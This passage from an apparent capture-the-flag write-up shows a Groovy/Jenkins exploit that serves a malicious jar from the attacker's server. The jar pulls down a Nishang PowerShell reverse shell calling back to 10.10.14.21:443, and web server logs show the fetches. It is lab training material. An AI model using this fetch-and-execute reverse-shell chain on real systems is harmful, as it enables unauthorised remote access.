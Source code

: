

Bundle it into a jar:



    root@kali# jar cvf 0xdf-223.jar Orange.class META-INF
    added manifest
    adding: Orange.class(in = 579) (out= 416)(deflated 28%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/org.codehaus.groovy.plugins.Runners(in = 7) (out= 9)(deflated -28%)



### Stage Payloads

Next I'll move the jar into the path expected by the GET request:



    root@kali# mkdir -p tw/orange/0xdf/223/
    root@kali# mv 0xdf-223.jar tw/orange/0xdf/223/



I'll also get a copy of `Invoke-PowerShellTcp.ps1` and named it
`shell.ps1` to match what's in the jar:



    root@kali# cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1



Then I'll grab the example line and paste it at the end of the file,
with my IP/port information:



    root@kali# tail -1 shell.ps1 
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 443



Now the PowerShell will request this file, and execute it loading all of
the functions into the PowerShell session, and then Invoking the one
that creates a shell connection back to me.

### Exploit

I'll open a `nc` listener on port 443. Now I just need to visit the url
again. On refresh, I first see activity in the web server, the request
for the jar file followed 6 seconds later by the request for
`shell.ps1`:



    10.10.10.63 - - [27/Feb/2019 12:15:36] "HEAD /tw/orange/0xdf/223/0xdf-223.pom HTTP/1.1" 404 -
    10.10.10.63 - - [27/Feb/2019 12:15:36] "HEAD /tw/orange/0xdf/223/0xdf-223.jar HTTP/1.1" 200 -
    10.10.10.63 - - [27/Feb/2019 12:15:37] "GET /tw/orange/0xdf/223/0xdf-223.jar HTTP/1.1" 200 -
    10.10.10.63 - - [27/Feb/2019 12:15:43] "GET /shell.ps1 HTTP/1.1" 200 -


